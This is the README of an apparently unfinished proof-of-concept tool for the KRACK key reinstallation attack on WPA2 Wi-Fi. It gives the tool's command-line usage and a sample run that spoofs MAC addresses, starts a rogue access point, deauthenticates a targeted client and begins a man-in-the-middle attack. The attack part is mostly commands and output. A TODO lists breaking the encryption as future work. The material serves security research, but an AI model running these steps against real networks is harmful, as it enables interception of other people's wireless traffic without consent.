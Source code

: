 # [WORK IN PROGESS] PoC Krack (Key Reinstallation AttaCKs)

Proof of concept for Krack attack using channel-based MitM

## Theory

French article on [hackndo](http://beta.hackndo.com/krack/)

## Environment

WPA2 with CCMP

## Usage

```
# ./Krack.py -h
usage: Krack.py [-h] [-d] -a ACCESS_POINT -i IFACE_AP -b CLIENT -j
                IFACE_CLIENT -c CHANNEL

optional arguments:
  -h, --help            show this help message and exit
  -d, --direct          Skip channel and monitor settings
  -a ACCESS_POINT, --access_point ACCESS_POINT
                        Enter the SSID of the specific access point to target
  -i IFACE_AP, --iface_ap IFACE_AP
                        Enter the SSID of the specific access point to target
  -b CLIENT, --client CLIENT
                        Enter the MAC address of the specific client to target
  -j IFACE_CLIENT, --iface_client IFACE_CLIENT
                        Enter the SSID of the specific access point to target
  -c CHANNEL, --channel CHANNEL
                        Choose channel on which the targeted access point is
                        listening on

# ./Krack.py -a hackndo_ssid_test -i wlan1 -b "ab:cd:0a:0b:11:22" -j wlan0 -c 11
[*] Turning off both interfaces
[*] Setting interface wlan1 on channel 11
[*] Interface wlan1 is on channel 11
[*] Setting interface wlan0 on channel 4
[*] Interface wlan0 is on channel 4
[*] Starting monitor mode for wlan1
[*] Interface wlan1 is now in monitor mode
[*] Starting monitor mode for wlan0
[*] Interface wlan0 is now in monitor mode
[*] Turning on both interfaces
[*] Trying to find hackndo_ssid_test MAC address
[*] MAC Found ! 0e:cc:46:8a:b1:09
[*] Jammer initialized correctly
[*] Sniffing an AP Beacon...
[*] AP Beacon saved!
[*] Sniffing an AP Probe response...
[*] AP Probe response saved!
[*] Updating wlan1 MAC address to ab:cd:0a:0b:11:22 (Client MAC)
[*] wlan1 MAC address update successful
[*] Updating wlan0 MAC address to 0e:cc:46:8a:b1:09 (Real AP MAC)
[*] wlan0 MAC address update successful
[*] Rogue AP started. Sending beacons...
[*] Running main loop
[*] Starting deauth on AP 0e:cc:46:8a:b1:09 (hackndo_ssid_test) and client ab:cd:0a:0b:11:22...
[*] Probe request to our AP
[*] Client authenticated to our AP!
[*] MitM attack has started
[*] Deauth stopped
```

## TODO

* Use CSA (Channel Switch Announcement) to make client switch channel after deauth (See issue [#1](https://github.com/Hackndo/krack-poc/issues/1))
* Save data sent by client
* Break cryptography with known plain text when counter is reinitialized
